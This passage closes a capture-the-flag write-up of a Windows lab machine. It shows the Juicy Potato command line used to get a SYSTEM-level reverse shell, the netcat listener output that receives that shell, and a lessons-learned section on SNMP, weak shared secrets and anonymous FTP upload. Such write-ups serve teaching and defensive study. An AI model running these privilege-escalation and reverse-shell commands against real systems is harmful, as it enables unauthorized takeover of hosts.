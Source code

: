 It fails to escalate privileges with the default CLSID. We can get the list of CLSIDs on our system using [this script](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). However, let’s first manually try one of the Windows 10 Enterprise CLSIDs available on the Juicy Potato [github repo](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Enterprise).

![](https://miro.medium.com/max/943/1*U4HIsLXdLBxuUF0uM8YuYw.png)

Rerun the Juicy Potato executable with the above specific CLSID.

```text
PS C:\Users\Destitute\Desktop> ./jp.exe -p shell.bat -l 4444 -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 4444
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM[+] CreateProcessWithTokenW OK
```

We get a shell back with SYSTEM privileges!

```text
root@kali:~# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.116] 49720
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.PS C:\Windows\system32>whoami
nt authority\system
```

Grab the _root.txt_ flag.

![](https://miro.medium.com/max/773/1*wrgTg1a8biAroZNnFerpMQ.png)

## Lessons Learned <a id="3860"></a>

To gain an initial foothold on the box we exploited three vulnerabilities.

1. Outdated version of SNMP and the use of default SNMP community string. The community string essentially acts as a password to gain access to the service. Using the default “public” string, we were able to query SNMP for the IKE VPN hashed password. The administrator should have instead used SNMPv3 since it’s the only version that provides strong authentication and data encryption. If it is necessary that version 1 be used, the administrator should have changed the community string to one that is not easily guessable.
2. Weak authentication credentials. The shared secret used to establish a secure connection was cracked in a matter of seconds using an online password cracker. The administrator should have either used a stronger shared key that is difficult to crack or considered using asymmetric encryption.
3. Insecure configuration of FTP server that allowed anonymous login and file upload. The administrator should have disabled anonymous access to the FTP server. If anonymous access was necessary, the administrator should have configured the FTP server to only allow downloads. This way we would not have been able to upload a reverse shell.

To escalate privileges we didn’t necessarily exploit a vulnerability but an intended design of how Microsoft handles tokens. So there’s really not much to do there but put extra protections in place for these sensitive accounts.


